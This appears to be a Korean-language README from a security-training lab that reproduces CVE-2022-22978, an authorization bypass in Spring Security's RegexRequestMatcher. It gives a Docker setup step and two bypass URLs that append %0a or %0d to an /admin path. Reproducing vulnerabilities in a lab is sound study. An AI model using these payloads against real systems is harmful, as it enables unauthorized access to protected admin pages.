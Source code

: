 # CVE-2022-22978

화이트햇 스쿨 3기 김태우_2249

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.
Spring Security 5.5.6 및 5.6.3 버전과 이보다 오래된 지원되지 않는 버전들에서는,
정규 표현식에 .(마침표)가 포함된 **RegexRequestMatcher**를 사용하는 애플리케이션이 인가 우회(authorization bypass) 취약점에 노출될 가능성이 있습니다.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## 환경 구성 및 실행

다음 명령어를 실행하여 Spring Security 5.6.3 기반의 웹 애플리케이션을 시작:

```
docker compose up -d
```
서버 시작 후, <http://your-ip:8080/admin> 를 접속하여 admin 페이지가 막힘을 확인



## Vulnerability Reproduce

인증을 우회한 관리자 페이지에 접근하려면 다음 요청을 보냄

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>


